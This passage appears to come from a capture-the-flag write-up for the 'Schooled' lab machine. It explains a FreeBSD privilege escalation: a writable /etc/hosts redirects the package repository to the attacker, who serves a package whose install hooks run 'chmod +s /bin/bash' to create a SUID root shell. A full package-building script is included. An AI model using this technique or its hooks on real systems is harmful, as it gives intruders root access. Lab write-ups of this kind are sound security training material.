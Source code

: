 ```bash
jamie@Schooled:~ $ ls -la /etc/hosts
-rw-rw-r--  1 root  wheel  1098 Mar 17 15:47 /etc/hosts
```

`/etc/hosts` being writable means we can point the repository update to our machine hosting a repo with a package containing a malicious postinstall script. In this script we can run any command we want as root. I chose to give bash suid.
For the package creation these [two](http://lastsummer.de/creating-custom-packages-on-freebsd/) [blogposts](http://lastsummer.de/setting-up-a-package-mirror-on-freebsd/) are helpful.
Following them we can create our own package and make a repository out of it, which
we then copy over to our machine via scp. Since the necessary tools to create the repository are already on the machine we will do it there. There is also a cleanup script running on the machine so we will work out of a folder it does not clean. First we follow the blogpost to write a package creation script with a pre and postinstall hook giving bash the suid bit and create a copy of `/etc/hosts` where `devops.htb` get resolved to our ip.

`create_packet.sh`
```bash
#!/bin/sh

STAGEDIR=/tmp/stage
rm -rf $STAGEDIR
mkdir -p $STAGEDIR

cat >> $STAGEDIR/+PRE_DEINSTALL << "EOF"
# careful here, this may clobber your system
echo "Resetting root shell"
chmod +s /bin/bash
EOF

cat >> $STAGEDIR/+POST_INSTALL << "EOF"
# careful here, this may clobber your system
echo "Registering root shell"
chmod +s /bin/bash
EOF

cat >> $STAGEDIR/+MANIFEST << "EOF"
name: mypackage
version: "2.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF

echo "deps: {" >> $STAGEDIR/+MANIFEST
pkg query "  %n: { version: \"%v\", origin: %o }" portlint >> $STAGEDIR/+MANIFEST
pkg query "  %n: { version: \"%v\", origin: %o }" poudriere >> $STAGEDIR/+MANIFEST
echo "}" >> $STAGEDIR/+MANIFEST

mkdir -p $STAGEDIR/usr/local/etc
echo "# hello world" > $STAGEDIR/usr/local/etc/my.conf
echo "/usr/local/etc/my.conf" > $STAGEDIR/plist

pkg create -m $STAGEDIR/ -r $STAGEDIR/ -p $STAGEDIR/plist -o .

```
